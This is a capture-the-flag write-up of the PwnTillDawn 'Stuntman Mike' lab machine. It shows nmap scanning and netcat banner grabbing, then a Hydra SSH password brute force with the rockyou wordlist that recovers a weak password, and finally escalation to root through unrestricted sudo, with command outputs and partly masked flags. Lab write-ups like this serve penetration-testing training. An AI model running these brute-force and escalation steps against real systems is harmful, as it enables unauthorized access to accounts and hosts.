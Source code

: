 +++ 
author = ['Abdallah Adham']
title = "Stuntman Mike PwnTillDawn Writeup"
date = 2022-12-06
description = "This is a writeup of the Stuntman Mike machine in PwnTillDawn Online platform."
draft = false
slug = ""

tags = [
	'PwnTillDawn',
    'PenTesting',  
    'Web', 
    'Exploit', 
    'Vulnerability',]

categories = [
    'Pen-Testing',  
    'Web-Security',
    ]

image = "post/Stuntman_Mike_PwnTillDawn/stuntman_mike_pwntilldawn.JPG"
+++

---

This writeup has been authorized by the **PwnTillDawn Crew**! 

Check their websites for more information!
1. [wizlynxgroup](https://www.wizlynxgroup.com/)
2. [online.pwntilldawn](https://online.pwntilldawn.com/)

## Target Information

| Name | IP | Operating System | Difficulty| 
|----------- | ----------- | ----------- |  -----------|
|**Stuntman Mike**| **10.150.150.166** | **Linux** | **Easy** |

## Scanning

### Nmap Scanning

```bash
$ nmap -p- -A 10.150.150.166
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 13:47 EST
Nmap scan report for 10.150.150.166
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b79e99ed7ee0d583adc9ba7cf1bc4406 (RSA)
|   256 7e53597b2d6c3bd72128cbcb78af9978 (ECDSA)
|_  256 c5d22d04f969404c153436fe831ff344 (ED25519)
8089/tcp open  ssl/http Splunkd httpd
|_http-title: splunkd
|_http-server-header: Splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:15:13
|_Not valid after:  2022-10-24T09:15:13
| http-robots.txt: 1 disallowed entry 
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1715.34 seconds

```

It looks like there is nothing opened except **SSH** and **HTTPS** ports, So Let's enumerate those services !

## Enumeration

### SSH Enumeration

#### Banner Grabbing

```bash
$ nc -vn 10.150.150.166 22
(UNKNOWN) [10.150.150.166] 22 (ssh) open
SSH-2.0-OpenSSH_7.6p1
```

Olay, So for assurance that the **SSH** version is `SSH-2.0-OpenSSH_7.6p1`.

#### SSH Connect (Fail)

So, I have tried to connect via **SSH** with a **root** user although i don't know any passwords.

_FLAG35_
```bash
$ ssh root@10.150.150.166                                                                                                        
The authenticity of host '10.150.150.166 (10.150.150.166)' can't be established.
ED25519 key fingerprint is SHA256:wCj0PIambullovu4ygX2+b6IVT8d8x2gEDeOB2D3OE4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.150.150.166' (ED25519) to the list of known hosts.
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b269XXXXXX
root@10.150.150.166's password:
```

But what is not expected is that i have got the **username** and **FLAG35** as a response to the connection.

Now, I think we can **bruteforce** the password to the **mike**'s user **SSH** credientials.

## Exploitation

### SSH Bruteforce (Hydra)

I have used **Hydra** tool to do the **SSH** bruteforce attack on the victim's machine with the username as **mike** and the **wordlist** as **rockyou.txt**.

```bash
$ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.150.150.166 -t 4 ssh
```

And the result is postive!
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-06 15:23:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.150.150.166:22/
[22][ssh] host: 10.150.150.166   login: mike   password: babygirl

1 of 1 target successfully completed, 1 valid password found
```

We have mike's credientials now!

```bash
[22][ssh] host: 10.150.150.166   login: mike   password: babygirl
```

### SSH Connect (Success)

Now, Let's connect via **SSH**!

```bash
$ ssh mike@10.150.150.166
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b2XXXXXXX
mike@10.150.150.166's password: babygirl
```

Boom! We got the SSH shell!
 ```bash
mike@stuntmanmike:~$ id
uid=1000(mike) gid=1000(mike) groups=1000(mike),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Let's get the user's flag!

_FLAG36_
```BASH
mike@stuntmanmike:~$ ls
FLAG36
mike@stuntmanmike:~$ cat FLAG36 
8cff2cce1a88a54db986XXXXXXXXXXXXXXX
```

Now, It is time to escalate our privilages to **root** in order to get the last flag!

## Post-Exploitation

### Sudo -l

So, I have tried to know what is my **privilages** that i can run with **sudo** and the result is:

```bash 
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: babygirl
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
```

I can run everthing with **sudo**!

So, I have switched myself to **root** by using this command:

```bash
mike@stuntmanmike:~$ sudo su
root@stuntmanmike:/home/mike# id
uid=0(root) gid=0(root) groups=0(root)
```

Now, I am **root**!

Let's get the last **flag** that is located in the **root**'s directory!

_FLAG37_
```bash
root@stuntmanmike:/home/mike# cd /root
root@stuntmanmike:~# ls
CAM.shortcut  FLAG37 
root@stuntmanmike:~# cat FLAG37 
28d10397e475a50fc0dXXXXXXXXXXXXXXXXX
```

_Pwned_

![pwned](post/Stuntman_Mike_PwnTillDawn/imgs/1.JPG)